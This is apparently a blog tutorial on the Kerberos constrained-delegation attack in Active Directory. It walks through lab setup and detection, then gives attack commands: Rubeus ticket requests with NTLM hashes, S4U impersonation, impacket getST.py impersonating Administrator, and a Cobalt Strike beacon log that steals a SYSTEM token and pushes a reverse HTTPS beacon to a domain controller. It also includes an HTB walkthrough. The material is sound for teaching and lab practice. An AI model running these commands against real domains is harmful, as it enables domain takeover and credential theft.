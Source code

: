 ```yaml
---
title: 🎟️ Ticket to the Kingdom Kerberos Attack - Constrained Delegation
date: 2025-10-29 01:03:00 +/-TTTT
categories: [Kerberos-Attack]
tags: [Constrained-Delegation]     # TAG names should always be lowercase
image : /assets/images/conbackground.png
---
```

> Author : lineeralgebra
{:.prompt-tip}

Constrained Delegation is a security feature in Active Directory that allows a service to impersonate users to access specific downstream services, but with strict limitations on which services can be accessed. Unlike Unconstrained Delegation (which allows access to any service), Constrained Delegation restricts the delegation to explicitly defined services.

Actually its better to analyze Constrained Delegation and **Resource-based Constrained Delegation (Windows Server 2012+) together but lets take only that one first.**

## Constrained Delegation happening why?

Lets understand whats going on here first!!!

![alt text](../assets/images/kerberos37.png)

Right Click → Properties or double left Left Click and go `Delegation`  part.

1. **Open Active Directory Users and Computers**
2. Enable **Advanced Features** (View → Advanced Features)
3. Find computer **FROY**
4. Right-click → **Properties** → **Delegation** tab
5. Select: **Trust this user for delegation to specified services only**
6. Select: **Use any authentication protocol** (this enables protocol transition)
7. Click **Add** → **Users and Computers**
8. Find and select **VALENOR-DC01** computer
9. Select services: **cifs** (and optionally **host**)
10. Click **OK** → **OK**
    
![alt text](../assets/images/kerberos38.png)
    

## Constrained Delegation detection

### Constrained Delegation detection with ADsearch.exe

We used that command before and it was pretty simple now we will use same one!!!

First of all lets check for computers

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))"
```

![alt text](../assets/images/kerberos39.png)

or same for users we just have to change `objectCategory=computer` → `objectCategory=user`

### Constrained Delegation detection with PowerView.py

We used that command before and it was pretty simple now we will use same one!!!

First of all lets connect powerview!!!! and connect as web host 🙂

```bash
powerview lab.local/'nicole.aurea:D4T!w/+aCxH-'@VALENOR-DC01.lab.local --dc-ip 192.168.1.10 --web --web-host 0.0.0.0 --web-port 3000 --web-auth user:password1234
```

and run

```bash
Get-DomainComputer -TrustedToAuth
```

![alt text](../assets/images/kerberos40.png)

or with **WEB Interfaces** off course

![alt text](../assets/images/kerberos41.png)

### Constrained Delegation detection with Bloodhound

![alt text](../assets/images/kerberos42.png)

## Constrained Delegation Attack

### Constrained Delegation Attack - Windows

Nice now lets do everything we did before!! Verify something first and just GO!!!!!!!

Lets find delegation first with `impacket`

```bash
findDelegation.py  lab.local/fay.lola:'liverpool'
```

![alt text](../assets/images/kerberos43.png)

we can see too many Delegation here but when `SPN` is exist we can request ticket succesfully.!!!

Lets use **TROY$** → **cifs/DC** cause its most common one and most easy we will touch hardest one

later

- Most important things about Constraied Delegation is **BLOODHOUND CAN DETECT IT AND GIVE US COMMAND BUT NOT RECOMMEND ALWAYS WRITE PAYLOADS AND COMMAND WITH URSELF WITH UR HAND STEP-BY-STEP**

![alt text](../assets/images/kerberos44.png)

- **Before start attack if u can go `cifs` u can go everywhere**
- **If u can go HTTP,HOST,WWW,etc u can go what u can go**
- **If u wanna use WINRM after attack use HTTP for altservice cause WINRM USE HTTP**

Lets ask TGT first

```bash
execute-assembly /home/elliot/tools/Rubeus.exe asktgt /user:TROY$ /domain:lab.local /ntlm:784dea15d79c7a0201fd133cdf2c9f80 /nowrap
```

![alt text](../assets/images/kerberos45.png)

now `S4U` time

```bash
execute-assembly /home/elliot/tools/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:VALENOR-DC01 /username:TROY$ /password:Pass1234 /ticket:<ticket_goes_here>
```

![alt text](../assets/images/kerberos46.png)

and verify it

```bash
execute-assembly /home/elliot/tools/Rubeus.exe klist
```

![alt text](../assets/images/kerberos47.png)

Steal token and access

```bash
[08/21 22:11:00] beacon> steal_token 2152
[08/21 22:11:00] [*] Tasked beacon to steal token from PID 2152
[08/21 22:11:00] [+] host called home, sent: 12 bytes
[08/21 22:11:00] [+] Impersonated NT AUTHORITY\SYSTEM
[08/21 22:11:23] beacon> cd \\VALENOR-DC01.lab.local\c$\Windows\Tasks
[08/21 22:11:23] [*] cd \\VALENOR-DC01.lab.local\c$\Windows\Tasks
[08/21 22:11:23] [+] host called home, sent: 49 bytes
[08/21 22:11:41] beacon> jump psexec64 VALENOR-DC01 valenor
[08/21 22:11:41] [*] Tasked beacon to run windows/beacon_https/reverse_https (192.168.1.8:443) on VALENOR-DC01 via Service Control Manager (\\VALENOR-DC01\ADMIN$\b7825c6.exe)
[08/21 22:11:41] [+] host called home, sent: 332054 bytes
[08/21 22:11:41] [-] could not upload file: 64 - ERROR_NETNAME_DELETED
[08/21 22:11:41] [-] Could not start service b7825c6 on VALENOR-DC01: 2
[08/21 22:11:52] beacon> jump psexec64 VALENOR-DC01.lab.local valenor
```

### Constrained Delegation Attack - Linux

Its 5x 10x easier with `impacket` Lets verify first and attack fastly

```bash
getST.py -spn 'cifs/VALENOR-DC01.lab.local' -impersonate 'administrator' -hashes :784dea15d79c7a0201fd133cdf2c9f80 'lab.local/TROY$'
```

![alt text](../assets/images/kerberos48.png)

we can export it and use nxc 

![alt text](../assets/images/kerberos49.png)

BOMMMMM!!!! now we can use `--ntds` for example

## Constrained Delegation on CTFs

Im gonna use [HTB-Intelligence](https://app.hackthebox.com/machines/357)  for this part and it will be funny!!

For example lets just say we have owned `svc_init$` and check for privileges

![alt text](../assets/images/kerberos50.png)

we add to owned and look at privileges and we found we can go **Constrained Delegation** to **DC**

![alt text](../assets/images/kerberos51.png)

we can see attack vector here but lets see more interesting if we can!!!! cause in this sitation we dont know which service we ill use.

I wanna show u another great tool `SharpView.exe` which is u can find here

https://github.com/Flangvik/SharpCollection

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/SharpView.exe Get-DomainComputer -TrustedToAuth
```

We can run every PowerView comamnd with it.

![alt text](../assets/images/kerberos52.png)

and now we know where we can go! 

```bash
msds-allowedtodelegateto       : WWW/dc.intelligence.htb
```

We can also find with [`findDelegation.py`](http://finddelegation.py/) tho

```bash
findDelegation.py  'intelligence.htb/svc_int$' -hashes :a9f4721de917a40fd9010ad815708184 
```

![alt text](../assets/images/kerberos53.png)

Lets attackk!!!!

```bash
getST.py -spn 'WWW/dc.intelligence.htb' -impersonate 'Administrator' -altservice 'cifs' -hashes :a9f4721de917a40fd9010ad815708184 'intelligence.htb/svc_int' 
```

![alt text](../assets/images/kerberos54.png)

**THAT WAS THE REASON WHY I SHOW THIS MACHINE**

```bash
KRB_AP_ERR_SKEW(Clock skew too great)
```

Thats the reason when our time and machine time dont match so I ALWAYS RECCEOMEND `faketime` for this

```bash
faketime "$(ntpdate -q <domain_name> | cut -d ' ' -f 1,2)" <COMMAND GOES HERE>
```

so

```bash
faketime "$(ntpdate -q intelligence.htb | cut -d ' ' -f 1,2)" getST.py -spn 'WWW/dc.intelligence.htb' -impersonate 'Administrator' -altservice 'cifs' -hashes :a9f4721de917a40fd9010ad815708184 'intelligence.htb/svc_int'
```

![alt text](../assets/images/kerberos55.png)

Thats how we do it.

```bash
➜  Intelligence export KRB5CCNAME=Administrator@cifs_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
➜  Intelligence klist
Ticket cache: FILE:Administrator@cifs_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
Default principal: Administrator@intelligence.htb

Valid starting       Expires              Service principal
08/22/2025 21:14:01  08/23/2025 07:14:00  cifs/dc.intelligence.htb@INTELLIGENCE.HTB
        renew until 08/23/2025 21:14:00
```

we can export and klist now we can dump everything

![alt text](../assets/images/kerberos56.png)

